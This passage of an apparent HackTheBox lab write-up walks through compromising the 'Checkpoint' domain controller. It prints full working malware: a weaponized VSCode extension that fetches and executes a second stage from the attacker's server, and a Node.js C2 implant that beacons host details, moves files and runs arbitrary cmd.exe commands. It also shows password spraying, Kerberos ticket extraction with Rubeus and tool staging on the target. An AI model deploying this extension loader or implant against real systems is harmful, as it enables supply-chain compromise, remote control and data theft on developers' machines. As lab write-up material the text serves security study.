The account was restored using the `set restore` command, which cleared the `isDeleted` flag and moved the object back to `CN=Mark Davies,OU=Employees,DC=checkpoint,DC=htb`.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/bloodyAD-msldap]
└─$ python3 bloodyAD.py --host DC01.checkpoint.htb -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' set restore 'CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb'
[+] CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb has been restored successfully under CN=Mark Davies,OU=Employees,DC=checkpoint,DC=htb
```

## Password Spraying Part 2

With `mark.davies` restored to the live directory, the same seasonal password wordlist was sprayed against the account. The password `Checkpoint2024!` matched, mirroring the pattern used by `alex.turner`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec ldap 10.129.21.94 -u 'mark.davies' -p passwords.txt                                                              
LDAP        10.129.21.94    389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:checkpoint.htb) (signing:Enforced) (channel binding:No TLS cert) 
LDAP        10.129.21.94    389    DC01             [-] checkpoint.htb\mark.davies:Checkpoint2021! 
LDAP        10.129.21.94    389    DC01             [-] checkpoint.htb\mark.davies:Checkpoint2022! 
LDAP        10.129.21.94    389    DC01             [-] checkpoint.htb\mark.davies:Checkpoint2023! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\mark.davies:Checkpoint2024!
```

| Username    | Password        |
| ----------- | --------------- |
| mark.davies | Checkpoint2024! |

Re-enumerating shares as `mark.davies` revealed `READ/WRITE` access to `DevDrop`, confirming this account had the elevated permissions needed to plant a malicious extension.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec smb 10.129.21.94 -u 'mark.davies' -p 'Checkpoint2024!' --shares
SMB         10.129.21.94    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.21.94    445    DC01             [+] checkpoint.htb\mark.davies:Checkpoint2024! 
SMB         10.129.21.94    445    DC01             [*] Enumerated shares
SMB         10.129.21.94    445    DC01             Share           Permissions     Remark
SMB         10.129.21.94    445    DC01             -----           -----------     ------
SMB         10.129.21.94    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.21.94    445    DC01             C$                              Default share
SMB         10.129.21.94    445    DC01             DevDrop         READ,WRITE      VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.21.94    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.21.94    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.21.94    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.21.94    445    DC01             VMBackups
```


## Privilege Escalation to ryan.brooks
### Malicious Visual Studio Code Extension

I recently published a repository on GitHub to showcase the practical use of malicious `Visual Studio Code` (`VSCode`) extensions due to  security awareness knowledge exchange, related to `TeamPCP` and the `Shai-Hulud` CI/CD worm. The repo contains  a `Simple Python C2` server to catch the callbacks from the `stager.js` which get's called by the malicious extension.

- [https://github.com/0xsyr0/Security-Awareness-Calculator](https://github.com/0xsyr0/Security-Awareness-Calculator)

The `extension.js` entry point pops `calc.exe` as a visible indicator, then fetches `stage.js` from the attacker's `HTTP` server over port `80/TCP`, writes it to the `%TEMP%` directory, and requires it — executing the second-stage `C2` payload.

```js
┌──(kali㉿kali)-[/mnt/…/files/Security-Awareness-Calculator/VSCode_ext_weaponized/extension]
└─$ cat extension.js
// ============================================================
// Security Awareness Calculator — VSCode Extension (Weaponized)
// Security Awareness PoC — For authorised testing only.
//
// This extension demonstrates VSCode extension abuse for
// initial access, calc.exe popup, and reverse shell delivery.
//
// OPERATOR CONFIGURATION REQUIRED — replace all placeholders
// before building.
//
// The author takes no responsibility for any damage or legal
// consequences resulting from misuse of this tool.
//
// https://github.com/0xsyr0/Security-Awareness-Calculator
// ============================================================

const http = require('http');
const fs = require('fs');
const os = require('os');
const path = require('path');

function activate(context) {
    const { execSync } = require('child_process');
    execSync('calc.exe');

    const stagePath = path.join(os.tmpdir(), 'stage.js');

    http.get('http://10.10.16.63/stage.js', (res) => {
        const file = fs.createWriteStream(stagePath);
        res.pipe(file);
        file.on('finish', () => {
            file.close(() => {
                require(stagePath);
            });
        });
    }).on('error', () => {});
}

function deactivate() {}

module.exports = { activate, deactivate };
```

The `stage.js` second-stage payload is a full `Node.js` `C2` implant that connects back to the attacker's `SimpleC2` server on port `9001/TCP`. On connection it sends a `JSON` beacon containing hostname, username, `OS` version, `IP` address, and whether it is running inside a `VSCode` process. It then enters a command loop supporting file operations, directory traversal and arbitrary shell command execution via `cmd.exe`.

```js
┌──(kali㉿kali)-[/mnt/…/Checkpoint/files/Security-Awareness-Calculator/SimpleC2]
└─$ cat stage.js
// ============================================================
// Security Awareness Calculator — Weaponized Template
//
// OPERATOR CONFIGURATION REQUIRED — replace all placeholders.
//
// The author takes no responsibility for any damage or legal
// consequences resulting from misuse of this tool.
//
// https://github.com/0xsyr0/Security-Awareness-Calculator
// ============================================================

const net  = require('net');
const cp   = require('child_process');
const fs   = require('fs');
const os   = require('os');
const path = require('path');

const OPERATOR_IP   = '10.10.16.63';
const OPERATOR_PORT =  9001;

const client = new net.Socket();

client.connect(OPERATOR_PORT, OPERATOR_IP, () => {
    const info = JSON.stringify({
        hostname: os.hostname(),
        username: process.env.USERNAME  || 'unknown',
        os:       `${os.type()} ${os.release()}`,
        ip:       Object.values(os.networkInterfaces())
                        .flat()
                        .filter(i => i.family === 'IPv4' && !i.internal)
                        .map(i => i.address)[0] || 'unknown',
        vscode:   process.env.VSCODE_PID ? 'yes' : 'no'
    });
    client.write(info);
});

let buf = Buffer.alloc(0);

client.on('data', (data) => {
    buf = Buffer.concat([buf, data]);

    while (true) {
        if (buf.length < 4) break;

        const msgLen = buf.readUInt32BE(0);

        if (buf.length < 4 + msgLen) break;

        const cmd = buf.slice(4, 4 + msgLen).toString('utf8').trim();
        buf = buf.slice(4 + msgLen);

        handleCommand(cmd);
    }
});

function handleCommand(cmd) {
    if (cmd === '__exit__') {
        client.destroy();
        return;
    }

    if (cmd === '__pwd__') {
        client.write(process.cwd() + '__done__');
        return;
    }

    if (cmd.startsWith('__cd__')) {
        const target = cmd.replace('__cd__', '').trim().replace(/\//g, '\\');
        try {
            process.chdir(target);
            client.write(process.cwd() + '__done__');
        } catch (e) {
            client.write(`cd failed: ${e.message}__done__`);
        }
        return;
    }

    if (cmd.startsWith('__mkdir__')) {
        const target = cmd.replace('__mkdir__', '').trim().replace(/\//g, '\\');
        try {
            fs.mkdirSync(target, { recursive: true });
            client.write(`Created: ${target}__done__`);
        } catch (e) {
            client.write(`mkdir failed: ${e.message}__done__`);
        }
        return;
    }

    if (cmd.startsWith('__download__')) {
        const filePath = cmd.replace('__download__', '').trim().replace(/\//g, '\\');
        try {
            const content = fs.readFileSync(filePath);
            client.write(Buffer.from(content).toString('base64') + '__done__');
        } catch (e) {
            client.write('__notfound__');
        }
        return;
    }

    if (cmd.startsWith('__upload__')) {
        const payload  = cmd.replace('__upload__', '');
        const sep      = payload.indexOf('__');
        const filePath = payload.substring(0, sep).replace(/\//g, '\\');
        const fileData = Buffer.from(payload.substring(sep + 2), 'base64');
        try {
            fs.mkdirSync(path.dirname(filePath), { recursive: true });
            fs.writeFileSync(filePath, fileData);
            client.write(`Uploaded to ${filePath}__done__`);
        } catch (e) {
            client.write(`Upload failed: ${e.message}__done__`);
        }
        return;
    }

    if (cmd.startsWith('__writefile__')) {
        const payload  = cmd.replace('__writefile__', '');
        const sep      = payload.indexOf('__');
        const filePath = payload.substring(0, sep).replace(/\//g, '\\');
        const content  = payload.substring(sep + 2);
        try {
            fs.mkdirSync(path.dirname(filePath), { recursive: true });
            fs.writeFileSync(filePath, content, 'utf8');
            client.write(`Written: ${filePath}__done__`);
        } catch (e) {
            client.write(`Write failed: ${e.message}__done__`);
        }
        return;
    }

    const PATH_CMDS = ['type', 'dir', 'copy', 'move', 'del', 'ren', 'attrib', 'icacls', 'tree'];
    const first      = cmd.split(' ')[0].toLowerCase();
    const normalised = PATH_CMDS.includes(first) ? cmd.replace(/\//g, '\\') : cmd;

    try {
        const out = cp.execSync(normalised, {
            shell:   'cmd.exe',
            timeout: 10000,
            cwd:     process.cwd()
        }).toString();
        client.write(out + '__done__');
    } catch (e) {
        client.write((e.stderr ? e.stderr.toString() : e.message) + '__done__');
    }
}

client.on('error', () => {});
client.on('close', () => {});
```

The extension directory was packaged into a `.vsix` file and the `SimpleC2` server and `HTTP` server were started to serve `stage.js` and receive the callback.

```shell
┌──(kali㉿kali)-[/mnt/…/Checkpoint/files/Security-Awareness-Calculator/VSCode_ext_weaponized]
└─$ zip -r ../Security_Awareness_Calculator.vsix . -x "*.DS_Store"
  adding: [Content_Types].xml (deflated 50%)
  adding: extension.vsixmanifest (deflated 48%)
  adding: extension/ (stored 0%)
  adding: extension/extension.js (deflated 53%)
  adding: extension/icon.png (deflated 18%)
  adding: extension/package.json (deflated 40%)
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
┌──(kali㉿kali)-[/mnt/…/Checkpoint/files/Security-Awareness-Calculator/SimpleC2]
└─$ python3 c2.py 

  ____  _                 _        ____ ____                                                                                                                                                                                                                                                                                                                                                                                              
 / ___|(_)_ __ ___  _ __ | | ___  / ___|___ \                                                                                                                                                                                                                                                                                                                                                                                             
 \___ \| | '_ ` _ \| '_ \| |/ _ \| |     __) |                                                                                                                                                                                                                                                                                                                                                                                            
  ___) | | | | | | | |_) | |  __/| |___ / __/                                                                                                                                                                                                                                                                                                                                                                                             
 |____/|_|_| |_| |_| .__/|_|\___| \____|_____|                                                                                                                                                                                                                                                                                                                                                                                            
                    |_|                                                                                                                                                                                                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                                                                                                                                          
 Firefox Cookie Stealer C2 Demo
 ─────────────────────────────────────────────────

 Main menu commands:                                                                                                                                                                                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                                                                                                                                          
   sessions                 list all active sessions
   use <id>                 interact with session by short ID
   clear_sessions           remove dead sessions from table
   help                     show this help menu
   quit                     shut down C2 server
 ─────────────────────────────────────────────────
                                                                                                                                                                                                                                                                                                                                                                                                                                          
[*] Listening on 0.0.0.0:9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
[main]> 
```

The `.vsix` was uploaded to the `DevDrop` share as `mark.davies`.

```shell
smb: \> put Security_Awareness_Calculator.vsix
putting file Security_Awareness_Calculator.vsix as \Security_Awareness_Calculator.vsix (29.7 kB/s) (average 29.7 kB/s)
```

```shell
smb: \> dir
  .                                   D        0  Sun Jun 14 05:43:07 2026
  ..                                  D        0  Sat May  9 16:42:27 2026
  Security_Awareness_Calculator.vsix      A     3163  Sun Jun 14 05:43:07 2026

                10459391 blocks of size 4096. 2483583 blocks available
```

Shortly after uploading, the `SimpleC2` server received a callback from `ryan.brooks` running inside `VSCode` on `DC01`, confirming a developer on the target machine had installed the extension.

```shell
┌──(kali㉿kali)-[/mnt/…/Checkpoint/files/Security-Awareness-Calculator/SimpleC2]
└─$ python3 c2.py 

  ____  _                 _        ____ ____                                                                                                                                                                                                                                                                                                                                                                                              
 / ___|(_)_ __ ___  _ __ | | ___  / ___|___ \                                                                                                                                                                                                                                                                                                                                                                                             
 \___ \| | '_ ` _ \| '_ \| |/ _ \| |     __) |                                                                                                                                                                                                                                                                                                                                                                                            
  ___) | | | | | | | |_) | |  __/| |___ / __/                                                                                                                                                                                                                                                                                                                                                                                             
 |____/|_|_| |_| |_| .__/|_|\___| \____|_____|                                                                                                                                                                                                                                                                                                                                                                                            
                    |_|                                                                                                                                                                                                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                                                                                                                                          
 Firefox Cookie Stealer C2 Demo
 ─────────────────────────────────────────────────

 Main menu commands:                                                                                                                                                                                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                                                                                                                                          
   sessions                 list all active sessions
   use <id>                 interact with session by short ID
   clear_sessions           remove dead sessions from table
   help                     show this help menu
   quit                     shut down C2 server
 ─────────────────────────────────────────────────
                                                                                                                                                                                                                                                                                                                                                                                                                                          
[*] Listening on 0.0.0.0:9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
[main]> 
[+] New session: 1230390d-b025-4c50-9f55-ca88416dd8a6
    Host    : DC01
    User    : ryan.brooks
    OS      : Windows_NT 10.0.26100
    IP      : 10.129.21.94
    VS Code : yes

    use 1230390d to interact

[main]>
```

```shell
[main]> use 1230390d

[*] Interacting with 1230390d — ryan.brooks @ DC01 (10.129.21.94) — type 'background' to return
```

## user.txt

```shell
[1230390d]> dir

 Volume in drive C has no label.
 Volume Serial Number is 2660-795C

 Directory of C:\Users\ryan.brooks\Desktop

05/18/2026  06:16 PM    <DIR>          .
05/21/2026  04:19 PM    <DIR>          ..
06/13/2026  07:04 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)  10,172,747,776 bytes free
```

```shell
[1230390d]> type user.txt

97563ddcafc50ff45e8fd7a39174b52f
```

## Enumeration (ryan.brooks)

`ryan.brooks` was a member of `CHECKPOINT\VPN-USERS` and `CHECKPOINT\DEVTEAM`. `BloodHound` showed `RYAN.BROOKS` holding `Outbound Object Control` (`GenericWrite`) over `SVC_DEPLOY` which was part of the group `CHECKPOINT\BACKUPACCESS`.

```shell
[1230390d]> whoami


USER INFORMATION
----------------

User Name              SID                                           
====================== ==============================================
checkpoint\ryan.brooks S-1-5-21-3129162710-3498938529-1807524340-1103


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Group used for deny only                          
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
CHECKPOINT\VPN-Users                       Group            S-1-5-21-3129162710-3498938529-1807524340-1109 Mandatory group, Enabled by default, Enabled group
CHECKPOINT\DevTeam                         Group            S-1-5-21-3129162710-3498938529-1807524340-1110 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```





The `systeminfo` output confirmed the target was a `Windows Server 2025` Domain Controller running on `VMware`, and that `App Control for Business` was enforced in user mode — relevant for tool deployment decisions.

```shell
[1230390d]> systeminfo


Host Name:                     DC01
OS Name:                       Microsoft Windows Server 2025 Standard
OS Version:                    10.0.26100 N/A Build 26100
OS Manufacturer:               Microsoft Corporation
OS Configuration:              Primary Domain Controller
OS Build Type:                 Multiprocessor Free
Registered Owner:              N/A
Registered Organization:       N/A
Product ID:                    00493-00000-24846-AA789
Original Install Date:         5/9/2026, 12:26:57 AM
System Boot Time:              6/13/2026, 7:03:11 PM
System Manufacturer:           VMware, Inc.
System Model:                  VMware Virtual Platform
System Type:                   x64-based PC
Processor(s):                  1 Processor(s) Installed.
                               [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:                  Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:             C:\WINDOWS
System Directory:              C:\WINDOWS\system32
Boot Device:                   \Device\HarddiskVolume1
System Locale:                 en-us;English (United States)
Input Locale:                  en-us;English (United States)
Time Zone:                     (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:         4,095 MB
Available Physical Memory:     2,307 MB
Virtual Memory: Max Size:      4,799 MB
Virtual Memory: Available:     2,953 MB
Virtual Memory: In Use:        1,846 MB
Page File Location(s):         C:\pagefile.sys
Domain:                        checkpoint.htb
Logon Server:                  \\DC01
Hotfix(s):                     N/A
Network Card(s):               1 NIC(s) Installed.
                               [01]: vmxnet3 Ethernet Adapter
                                     Connection Name: Ethernet0 2
                                     DHCP Enabled:    Yes
                                     DHCP Server:     10.10.10.2
                                     IP address(es)
                                     [01]: 10.129.21.94
                                     [02]: fe80::8e61:7282:e884:8be
                                     [03]: dead:beef::a46:b721:a39b:9c64
Virtualization-based security: Status: Not enabled
                               App Control for Business policy: Enforced
                               App Control for Business user mode policy: Off
                               Security Features Enabled:
Hyper-V Requirements:          A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

## Privilege Escalation to svc_deploy

### BadSuccessor: delegated Managed Service Account (dMSA) Abuse

`BadSuccessor` is an `Active Directory` privilege escalation technique discovered by `Akamai` that abuses `delegated Managed Service Accounts` (`dMSAs`), a feature introduced in `Windows Server 2025`. A `dMSA` is a new type of service account designed to supersede an existing account (`msDS-SupersededServiceAccountLink`) as part of a migration workflow. When a `dMSA` is created with a superseded account link and the `msDS-DelegatedMSAState` attribute is set to `2` (migration complete), the `Key Distribution Center` (`KDC`) includes the `SID` history of the superseded account in `Kerberos` tickets issued for the `dMSA`. An attacker who holds `CreateChild` rights over any `Organisational Unit` can create a `dMSA` object, link it to an arbitrary target account (such as `svc_deploy`), and request a `TGS` using `Rubeus asktgs` with the `/dmsa` flag. The resulting ticket carries the privileges of the superseded account, effectively allowing full impersonation without knowing the target account's password. The attack requires only `GenericWrite` or `CreateChild` over an `OU` — not `Domain Admin` — making it a low-barrier domain escalation path in any `Windows Server 2025` environment.

- [https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory?](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory?)
- [https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/](https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/)

The `PowerShell` runtime version was checked first to select the correct `Rubeus` build from `SharpCollection`.

```shell
[1230390d]> powershell -command "[System.Runtime.InteropServices.RuntimeEnvironment]::GetSystemVersion()"

v4.0.30319
```

- [https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.0_Any](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.0_Any)

We downloaded and uploaded `Rubeus` to the target to then use `tgtdeleg` to extract a delegation `TGT` for `ryan.brooks` as a `base64`-encoded `kirbi`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/serve]
└─$ wget https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/Rubeus.exe -O Rubeus.exe
--2026-06-14 14:32:24--  https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/Rubeus.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 474112 (463K) [application/octet-stream]
Saving to: ‘Rubeus.exe’

Rubeus.exe                                                                                                 100%[======================================================================================================================================================================================================================================================================================>] 463.00K  --.-KB/s    in 0.05s   

2026-06-14 14:32:24 (9.65 MB/s) - ‘Rubeus.exe’ saved [474112/474112]
```

```shell
[1230390d]> powershell iwr 10.10.16.63/Rubeus.exe -o Rubeus.exe
```

```shell
[1230390d]> .\Rubeus.exe tgtdeleg /nowrap


   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.checkpoint.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation request success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: zuJYH7GaA7LTFe7jPE9JH5XXeAti0EbC5t9X8FRK6eM=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxhggTIMIIExKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRuIUDMWVt8SULaG333vrkgUNe50JxpU4Mc0/9Xm21TSYw5WJutwcxZgyHkzkMgLuYCLwLutO1acdzI8drfgyGoKXt7gZY7BUoN7LCO11rB3Ey+HBzu6WhVnKAmhNM97yRBBWJ+foM2pejSam/jVeTceuZSXWsuSTwCAey5XaMQL2haI2g0aKTxLGX8jyYPPQDW/yUqKPDGomccetx1PG9Yt6Pd49j6AYahnpsydpkcso5q4NKjPXTZa9Gk3Ou7qy3CIn9N6diQc2WypmvWRDOcgAD7ZpHdab2AMDawfSL7L50pmxKyx3BaQEYrz1hsw8h6nsgLJ2+ul8XfuzIL4UOZhRUEVA/OEak87tYHbaf62q77zxbniEeh3LwjF+J6QRCCOYOluX2SCpcT8iOQXMTDvuk/3NZaVnNCvhdey5IUW52NLvA04IPUBeiBpWoqE4/p8Wxws8YEA7nBZ7ctUIL3xeBZQ7Wj+dkphfhFaoRPPtkYX7Iw2lZj40pCBL0qx8Immr0OvcvmaKlShEdaQuFi5PtcaoOkYKM8gqrIRpG8fn8amE3SUukRJJrWRy4gRojtuTVXx75VxZ29lAbXo/e9FUlNiVtP8/u2gEzVonZE4KBHggS6gIJzHBhM1I+gHOrpbxWXhBfRUV/P+/G7Tl8QLYf25FXkg8wvfDlNDSsHfIfdgYiXX6MnT0KEYGlBGJJUZ1ogEbEdY4kEqldDTmW7it2ptk5auJYdWnhQgErM3jSIKNzeUxu+50JILAN74oGNwOfmReXDS5Eu5ccQ34NiKGupH9NF3hM/dbR64aqZ0uLp3afkts8E8yAB1UA6Pvsu27JmlpcR5CPrNgTPzm0hSgDexkHVelJtEGawQJ4yJrM0Tor0Go39Ha0E00nfHVEzaCrwhc3HPUTuaLva1rNiAQaT7C9qny/UTcWOzDvl5S16/NYQTdid1g6ISNOxoclQo4ILX35GrjjvO0IvVVu1NH0gdDlkAFl5wenrjkgXMFTK/NEGCgc9JzwoW/MNO4vM9iRRnyGaTzmTEfYw0BXUIvIdImiqvwv+w3cYwnREOHKTw90TLWiwGA3XDq2XWXjYg0OFedpory+oL0H1VbVnnXc+iRZNuErz8hJR0VtvI2aHUfAbq3XfzGDUwRXXE6ttweJGhxR0ga4hFrYUgeehIMDo3S1yuml0QiEOypS1GBksxgaycJ5K3a/4ucwGjcgnkRVZer7g0bQB9rawlR/JSAS5lkRm5bKcMUXaXp77kozCXIhBwNxUzCCPIXfu1WX+mBbfTnMitJFY/jMDQMvciMz9BNHXuy3VEx7BcmJTfHkP73tZsGKD5fhwpkPvQygq9ZHRowkrGSfzclYaE7xiWIx0rZdhjzlOaY31pVIT3l7U9ByQmgSv1MK5Yn8MDgcxmV019IuG9w4FEwrR2VBB3UmF+PVTZSAi/CzKyXv1Nh2xZueeuBiW3DaEXAj67Xrqjgoj2THQcx6w1F9ptbSCOU0/lsR0tyPHPeZ65m+ro4HvMIHsoAMCAQCigeQEgeF9gd4wgduggdgwgdUwgdKgKzApoAMCARKhIgQgqc0lz27C9P/gd0mPGTY5CNEiYFCI3P+vWNVpOk+iSo+hEBsOQ0hFQ0tQT0lOVC5IVEKiGDAWoAMCAQGhDzANGwtyeWFuLmJyb29rc6MHAwUAYKEAAKURGA8yMDI2MDYxNDEyMzI1NVqmERgPMjAyNjA2MTQxNDMyMTBapxEYDzIwMjYwNjIxMDQzMjEwWqgQGw5DSEVDS1BPSU5ULkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOQ0hFQ0tQT0lOVC5IVEI=
```

The `kirbi` ticket was decoded and converted to `.ccache` format, then loaded as the active credential cache.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ echo "doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxhggTIMIIExKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRuIUDMWVt8SULaG333vrkgUNe50JxpU4Mc0/9Xm21TSYw5WJutwcxZgyHkzkMgLuYCLwLutO1acdzI8drfgyGoKXt7gZY7BUoN7LCO11rB3Ey+HBzu6WhVnKAmhNM97yRBBWJ+foM2pejSam/jVeTceuZSXWsuSTwCAey5XaMQL2haI2g0aKTxLGX8jyYPPQDW/yUqKPDGomccetx1PG9Yt6Pd49j6AYahnpsydpkcso5q4NKjPXTZa9Gk3Ou7qy3CIn9N6diQc2WypmvWRDOcgAD7ZpHdab2AMDawfSL7L50pmxKyx3BaQEYrz1hsw8h6nsgLJ2+ul8XfuzIL4UOZhRUEVA/OEak87tYHbaf62q77zxbniEeh3LwjF+J6QRCCOYOluX2SCpcT8iOQXMTDvuk/3NZaVnNCvhdey5IUW52NLvA04IPUBeiBpWoqE4/p8Wxws8YEA7nBZ7ctUIL3xeBZQ7Wj+dkphfhFaoRPPtkYX7Iw2lZj40pCBL0qx8Immr0OvcvmaKlShEdaQuFi5PtcaoOkYKM8gqrIRpG8fn8amE3SUukRJJrWRy4gRojtuTVXx75VxZ29lAbXo/e9FUlNiVtP8/u2gEzVonZE4KBHggS6gIJzHBhM1I+gHOrpbxWXhBfRUV/P+/G7Tl8QLYf25FXkg8wvfDlNDSsHfIfdgYiXX6MnT0KEYGlBGJJUZ1ogEbEdY4kEqldDTmW7it2ptk5auJYdWnhQgErM3jSIKNzeUxu+50JILAN74oGNwOfmReXDS5Eu5ccQ34NiKGupH9NF3hM/dbR64aqZ0uLp3afkts8E8yAB1UA6Pvsu27JmlpcR5CPrNgTPzm0hSgDexkHVelJtEGawQJ4yJrM0Tor0Go39Ha0E00nfHVEzaCrwhc3HPUTuaLva1rNiAQaT7C9qny/UTcWOzDvl5S16/NYQTdid1g6ISNOxoclQo4ILX35GrjjvO0IvVVu1NH0gdDlkAFl5wenrjkgXMFTK/NEGCgc9JzwoW/MNO4vM9iRRnyGaTzmTEfYw0BXUIvIdImiqvwv+w3cYwnREOHKTw90TLWiwGA3XDq2XWXjYg0OFedpory+oL0H1VbVnnXc+iRZNuErz8hJR0VtvI2aHUfAbq3XfzGDUwRXXE6ttweJGhxR0ga4hFrYUgeehIMDo3S1yuml0QiEOypS1GBksxgaycJ5K3a/4ucwGjcgnkRVZer7g0bQB9rawlR/JSAS5lkRm5bKcMUXaXp77kozCXIhBwNxUzCCPIXfu1WX+mBbfTnMitJFY/jMDQMvciMz9BNHXuy3VEx7BcmJTfHkP73tZsGKD5fhwpkPvQygq9ZHRowkrGSfzclYaE7xiWIx0rZdhjzlOaY31pVIT3l7U9ByQmgSv1MK5Yn8MDgcxmV019IuG9w4FEwrR2VBB3UmF+PVTZSAi/CzKyXv1Nh2xZueeuBiW3DaEXAj67Xrqjgoj2THQcx6w1F9ptbSCOU0/lsR0tyPHPeZ65m+ro4HvMIHsoAMCAQCigeQEgeF9gd4wgduggdgwgdUwgdKgKzApoAMCARKhIgQgqc0lz27C9P/gd0mPGTY5CNEiYFCI3P+vWNVpOk+iSo+hEBsOQ0hFQ0tQT0lOVC5IVEKiGDAWoAMCAQGhDzANGwtyeWFuLmJyb29rc6MHAwUAYKEAAKURGA8yMDI2MDYxNDEyMzI1NVqmERgPMjAyNjA2MTQxNDMyMTBapxEYDzIwMjYwNjIxMDQzMjEwWqgQGw5DSEVDS1BPSU5ULkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOQ0hFQ0tQT0lOVC5IVEI=" | base64 -d > ryan.brooks.kirbi
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ impacket-ticketConverter ryan.brooks.kirbi ryan.brooks.ccache
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ export KRB5CCNAME=ryan.brooks.ccache
```

Due to probably technical issues, I had issues running the `NetExec` module for `BadSuccessor`. Since at least for me it was not consistent, I uploaded the `BadSuccessor` binary to have an alternative way to verify the vulnerability.

```shell
